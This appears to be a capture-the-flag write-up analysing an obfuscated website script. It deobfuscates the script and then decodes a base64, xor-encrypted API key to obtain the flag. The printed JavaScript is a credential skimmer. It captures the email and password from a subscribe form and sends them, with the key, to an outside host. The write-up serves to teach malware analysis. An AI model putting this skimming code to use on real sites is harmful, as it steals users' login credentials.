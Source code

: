 ```js
      return _0x1bcfcc.join('')
    }
    function _0xe05049() {
      var _0x45261b = _0x3a9d03,
        _0x2bf34e = _0x38e031,
        _0x5ba78a = _0x2ae5a0(_0x37a3bb),
        _0x5b4edc = new XMLHttpRequest()
      _0x5b4edc.open(
        'GET',
        'https://storage.appssec.co.ind?email=' +
          _0x45261b +
          '&password=' +
          _0x2bf34e +
          '&apikey=' +
          String(_0x5ba78a)
      )
      _0x5b4edc.send()
    }
    _0xe05049()
  })
})
```

This script still looks obfuscated but we can agree that it looks much better than before. It basically adds a Listener on the subscribe form button. Listeners in javascript are basically actions that wait to be happened. Here, once the subscribe-form button has been clicked, the script we deobfuscated will run. But what does it actually do?  

Well, we see that it gets a username and a password from the form that had its button clicked. Then, it makes a request to the website *h[x][x]ps://storage.appssec.co.ind* with url arguments:
- username
- password
- apikey

The interesting part here is how the apikey is found. We notice a base64 encoded string that is decoded, xored with the key **santa** and then passed to the url where the request will be made.  
Following up with the actions of the script, if we decode the base64 string and xor it with the key, we will get the apikey which is also the flag for this challenge:  
```py
>>> from base64 import b64decode
>>> from pwn import xor
>>> 
>>> apikey_encrypted = b'PSkvNyoILFxaI0BVW0M+RlBZR1QsVVxHPkAXXUYYBAldRlIsD14DVRdVF0Ec'
>>> apikey_encr = b64decode(apikey_encrypted.decode())
>>> key_for_decryption = b'santa'
>>> 
>>> xor(apikey_encr, key_for_decryption)
b'NHACK{M2.B3457_51735_423_3v32ywh323_n0w4d4y5}'
>>>
```

Bonus ways to solve it:
- Add the following line in the javascript function _0xe05049() of the website:
	```js
	alert(_0x5ba78a);
	```
	and then visit the website and click on the Subscribe button. This will decrypt the apikey for you and print it on the screen in an alert box. This is happening since the _0x5ba78a is the decrypted apikey returned from the function _0x37a3bb.
- Open Wireshark, run a fakedns server and click on the subscribe button without modifying javascript this time. What will happen is a DNS query to storage.appssec.co.ind will be successful and thus, a request with the username, password and decrypted api key will be made to this host which will be visible in Wireshark.
